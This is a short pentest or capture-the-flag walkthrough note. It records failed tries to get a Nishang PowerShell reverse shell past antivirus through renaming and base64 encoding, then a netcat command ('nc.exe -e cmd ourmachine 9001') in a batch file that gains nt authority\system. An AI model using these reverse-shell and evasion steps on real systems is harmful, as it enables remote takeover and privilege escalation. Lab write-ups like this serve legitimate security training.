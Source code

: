### Use one-line common Nishang reverse shell but the execution is blocked by antivirus :&#x20;

* Try to replace variables name :%s/$d/$likethisvideo/g  :%s/$sm/$pleasesub/g

-> Antivirus is still blocking it

* Try encoding only the beggining to see from where it's blocked

```
echo -n "One-line reverse shell" | iconv -t utf-16le | base64 -w 0
```

-> Antivirus is still blocking it

* Try to use another reverse shell (`New Object System.Net.Sockets.TCPClient` was blocked , try Invoke-PowershellTcp.ps1)

-> Antivirus is still blocking it

Give up with Antivirus evasion

### Use nc.exe to reverse shell

```
echo c:\temp|nc.exe -e cmd ourmachine 9001 > pleasesub.bat
```

Launch the script using the interface

-> OK, we are nt authority\system

